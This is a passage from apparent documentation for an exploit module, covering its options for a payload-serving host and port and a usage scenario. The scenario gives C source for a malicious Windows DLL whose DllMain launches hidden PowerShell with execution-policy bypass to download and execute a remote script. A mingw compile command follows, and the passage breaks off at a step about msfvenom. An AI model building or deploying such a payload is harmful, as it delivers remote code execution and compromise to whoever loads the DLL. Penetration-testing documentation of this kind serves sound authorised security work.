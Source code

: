 The payload prefix to be requested by the exploit chain. Default: Randomized

**PAYLOAD_URI**

The payload base path to be requested by the exploit chain. Default: /

**SRVHOST**

The remote host/ip to request the payload.

**SRVPORT**

The remote host port number (TCP).

## Scenarios

### Basic usage

#### Generate your own DLL payload.

1. Using your own code

```
#include <windows.h>

void execute(void) {
	system("powershell -exec bypass -w hidden -C \"IEX(New-Object Net.WebClient).downloadString('https://www.domain.tld/folder/SCRIPT')\"");

	return;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved ) {
    switch( fdwReason ) {
        case DLL_PROCESS_ATTACH:
           execute();
           break;

        case DLL_THREAD_ATTACH:
            break;

        case DLL_THREAD_DETACH:
            break;

        case DLL_PROCESS_DETACH:
            break;
    }

    return TRUE;
}
```

Make it: `i686-w64-mingw32-gcc -shared execute_cmd.c -o execute_cmd.dll`

2. Using `msfvenom` to generate the DLL payload
